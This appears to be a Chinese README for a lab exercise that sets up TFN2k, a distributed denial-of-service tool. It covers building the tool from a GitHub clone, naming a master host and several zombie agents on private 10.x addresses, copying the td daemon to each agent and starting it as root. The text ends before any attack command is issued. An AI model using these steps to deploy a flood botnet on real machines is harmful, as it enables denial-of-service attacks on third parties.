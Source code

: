 

TFN2k 模拟攻击示例
==================

参考[1]
-----------

#1. 编译

>`git clone https://github.com/poornigga/tfn2k`

>`cd tfn2k`

>`make`


#2. 安装

##测试环境：

>主控端tfn：10.4.3.145

>被控端td:

>1. 10.4.192.26

>2. 10.4.3.117

>3. 10.4.3.145  (10.4.3.145既做主控端又做被控端，即主控端自身也是肉鸡)

##测试手段：
>10.4.3.145指挥10.4.192.26,10.4.3.117,10.4.3.145去攻击10.4.192.25

##主控端安装

>将td,tfn两程序FTP到主控端（10.4.3.145）的/root

>`# ls`

>`serverout0.txt  tfn  td`


##建立host_tfn文件，设立肉鸡地址，包括自身

># cat  host_tfn

>10.4.192.26     

>10.4.3.145      自身

>10.4.3.117     

##被控端安装

>ftp td到各被控端


#3. 测试

##各被控端起td

>[td@some ~]$ su                 td必须在root下起

>Password:


[1]: http://blog.sina.com.cn/s/blog_6151984a0100exma.html